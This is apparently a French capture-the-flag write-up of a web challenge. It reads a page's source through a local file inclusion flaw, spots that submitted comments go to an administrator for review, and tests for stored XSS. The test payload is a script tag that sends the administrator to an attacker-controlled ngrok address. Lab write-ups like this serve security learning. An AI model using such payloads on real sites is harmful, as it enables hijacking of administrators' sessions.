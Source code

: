 Premièrement, il y a un contrôle des entrées utilisateur au niveau du paramètre "id" de l'URL. Seul des chiffres peuvent être entrés dans ce paramètre. Donc ce n'est pas une voie utilisable pour la réussite de ce challenge.
{% highlight php %}
<?php
	if(!preg_match("/^[0-9]{1,2}$/", $_GET['id']))
	{
	  die('<center><h1>Do not hack me !</h1></center>');
	}
?>
{% endhighlight %}

Deuxièmement, on peut voir que le commentaire envoyé à l’admin passe par une page nommée : change-rate.php
{% highlight html %}
<form  class="form" method="post" action="/change-rate.php?id=<?php echo $res['id']?>">
  <textarea class="form-control" name="comment"></textarea>
  </br>
  <input type="submit" class="btn btn-block"/>
</form>
{% endhighlight %}

## change-rate.php
Récupérons donc le code de cette page à l'aide de la faille LFI !

Dans le code cette page, nous voyons que le commentaire est stocké dans une table qui semble temporaire et qui va permettre à l'administrateur du site de lire ce commentaire.

{% highlight php %}
<?php
	$req = $bdd->prepare("INSERT INTO comments_to_be_reviewed (movie_id,comment) VALUES (:id,:comment)");
	$id = movieId(intval($_GET['id']));
	$req->bindParam(':id',$id);
	//add filter to escape SQLi
	$req->bindParam(':comment',$_POST['comment']);
	$req->execute();
	echo "Your comment is under review by an administrator";
?>
{% endhighlight %}

Cela peut signifier que l'administrateur va lire les commentaires envoyés et que par conséquent qu'il peut y avoir une faille XSS à l'ouverture ceux-ci.

# Etape 4 : Tester de la faille XSS
Pour tester si la faille est présente, on va envoyer le payload suivant:
{% highlight js %}
<script> window.location = "http://XXXXXXXX.ngrok.io"</script>
{% endhighlight %}

Ce payload va simplement rediriger l'administrateur vers une autre adresse. Ici j'utilise le logiciel ngrok qui permet de créer un tunnel de son localhost vers internet, c'est très pratique lorsque l'on veut partager un site en cours de développement en local via internet.

